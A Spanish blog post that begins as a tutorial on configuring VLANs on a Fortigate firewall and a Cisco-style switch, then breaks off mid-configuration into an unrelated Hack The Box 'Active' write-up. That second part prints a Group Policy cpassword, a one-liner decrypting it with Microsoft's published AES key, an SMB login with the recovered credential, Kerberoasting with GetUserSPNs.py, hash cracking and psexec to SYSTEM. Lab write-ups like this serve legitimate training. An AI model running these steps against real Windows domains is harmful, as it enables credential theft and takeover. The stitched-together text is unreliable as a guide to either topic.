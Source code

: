 ```yaml
---
title: "VLANS en Fortigate"
layout: post
---
```

![Fortigate](/assets/images/Vlan1.png)


<h2>Presentación</h2>
En esta ocasion estaremos configurando un Firewall Fortigate junto a un Switch de capa 3, diferentes Vlans, para la separacion logica del trafico, en otro post estaremos presentando que es una VLAN y para que se utilizan asi como sus beneficios. 

- PC1 pertenece a la VLAN-ID 101 Alumnos --> 172.21.0.0/24
- PC2 pertenece a la VLAN-ID 102 Docentes --> 172.22.0.0/24
- PC3 pertenece a la VLAN-ID 103 Administradores --> 172.23.0.0/24

En Fortinet es posible utilizar la misma interfaz fisica para la creacion y trafico de diferentes VLANs, ya que pemite identificar el trafico con el VLAN-ID, y separar asi la interfaz fisica de manera logica, en una o mas interfaces logicas, a traves del tag frame 802.1q agregado que permite identificarlas (VLAN-ID). 

<h2>Reconocimiento</h2>
En la imagen tenemos un Fortigate de cara al internet (_Aunque la etiqueta LAN, se me quedo encima de la nube_ 😑) este fortigate haciendo la funcion de _edge firewall_ o firewall de perimetro se encarga del procesar el trafico que proviene de la red interna hacia internet y vice-versa, en este caso de las diferentes VLANS _Docentes, Alumnos y Administradores_ estos nombres para las diferentes son intencionalmente seleccionados para presentar unos de los mayores beneficios de la utilizacion de VLANS, y es que crear VLANS nos permite crear diseños más flexibles que agrupen a los usuarios por departamento, o por grupos que trabajan en lugar de por su ubicación física, y que como medida de seguridad nos permita implementar la aplicación de diferentes políticas de seguridad por VLANs.
  
<h2>VLANs</h2>
Crear, nombrar y asignar vlans es un proceso sencillo, como te mostrare a continuacion, y ya en otro post ampliaremos sobre mas atributos configurables con relacion a las vlans.

Lo primero que hay que hacer es entrar o habilitar el modo de configuracion, para eso ejecutamos los comandos: 

{% highlight bash %} enable {% endhighlight %}
{% highlight bash %} configure terminal {% endhighlight %}

<h2> Creacion de VLAN Switch capa 3</h2>

Una vez dentro del modo de configuracion que es posible identificar porque el terminar ahora nos anade (config)#.
![Fortigate](/assets/images/all vlans.png)

Es simplemente utilizar los comandos:

{% highlight bash %} vlan 101 {% endhighlight %} Donde el 101 es simplemente el ID de las vlans que habiamos especficado al principio, y entramos al modo de configuracion de vlan (config-vlan)#
{% highlight bash %} name docentes {% endhighlight %} Donde docentes es simplemente el nombre de las vlans.

<h2> Asignar VLANs a diferentes interfaces </h2>

Para esto volvemos al modo de configuracion de terminal(config)#
```
interface gigabitEthernet 0/1
switchport mode acess
switchport access vlan 101

```
<h2>VLANs en Fortigate</h2>
![Fortigate](/assets/images/interface.png)

Dentro de la seccion de Network, nos vamos al apartado de interfaces.

{% highlight bash %} [+] Create New {% endhighlight %}
{% highlight bash %} Interface {% endhighlight %}

![Fortigate](/assets/images/vlan102.png)

Vamos a asignar la direccion ip de forma manual 172.22.0.1/24
Habilitamos ping para hacer prueba inter-Vlans al final.




Luego de navegar por el directorio policies en busca de algo interesante y observando cada archivo hasta dar con el archivo groups.xml, que según el siguiente article de [Hacking-Article][Hacking-Article] es creado como consecuencia de la configuración de Group Policy Preference, en la que permiten a un administrador crear policies e instalar aplicaciones a través de Group Policy. Y sobre la cual se guarda una contraseña encriptada en formato _cpassword_, y de la cual Microsoft publicó la llave, como podemos observar en el siguiente artículo, [Microsoft][Microsoft], trasladamos el contenido de dicha carpeta a nuestra carpeta content y efectivamente, como se puede observar, obtenemos las credenciales del usuario SVC_TGS:

{% highlight bash %} <?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups> {% endhighlight %}

Desencriptamos la contraseña con el uso de la herramienta gpp-decrypt:

![Ative HTB](/assets/images/ggp.png)

también podemos hacer uso de el siguiente one-liner ya que conocemos la llave como mencionamos anteriormente:
{% highlight bash %} 
echo 'password_in_base64' | base64 -d | openssl enc -d -aes-256-cbc -K 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b -iv 0000000000000000 
{% endhighlight %}

<h2>Validación de credenciales</h2>

Utilizamos la herramienta crackmapexec.py del poderoso _impacket_ para verificar la autenticidad de dicho usuario en el dominio **active.htb**, las cuales resultaron ser válida aunque no obtuvimos un (Pwned!) e intentamos verificar si podiamos loguearnos a traves de winrm, pero no fue así. 

![Ative HTB](/assets/images/gpp.png)

**Nota** desde aqui podemos visualizar la flag del user, haciendo uso de smbclient y navegando entre directorios :)

{% highlight bash %} smbclient //10.10.10.100/Users -U active.htb\\SVC_TGS%GPPstillStandingSt----8 {% endhighlight %}

Pero teniendo un usuario y contraseña, se nos hace posible realizar un Kerberoasting attack, el cual TCM Security explica detallamente, que nos _dumpea_ los krbasrep5 hashes de las cuentas que tienen _Kerberos pre-authentication deshabilidata_ pero que explico con más detalle en el siguiente artículo, sobre mis apuntes. 
Para esto utilizamos la herramienta _GetUserSPNs.py_, del poderoso impacket 🏅  

{% highlight bash %} GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS {% endhighlight %}

obtenemos el hash NTLMv2, enviamos a un archivo de texto y utilizamos John The Ripper, para obtener la credencial en texto plano.

![Ative HTB](/assets/images/hash.png)

y ya obteniendo credenciales de administrador como nos muestra la primera línea del output del GetUserSPNs.py, y contraseña nos logueamos en el sistema. 

![Ative HTB](/assets/images/psexec.png)

Ya siendo Nt Authority\System, a buscar las flags.
Que he decidido mostrar solo si existe algún paso más para llegar a ellas, no que tan solo sea navegar entre directorios como es este el caso, para poder verla. 

🖱️_by:_ *@DaVinciRoot*

[Hacking-Article]: https://www.hackingarticles.in/credential-dumping-group-policy-preferences-gpp/
[Microsoft]: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0
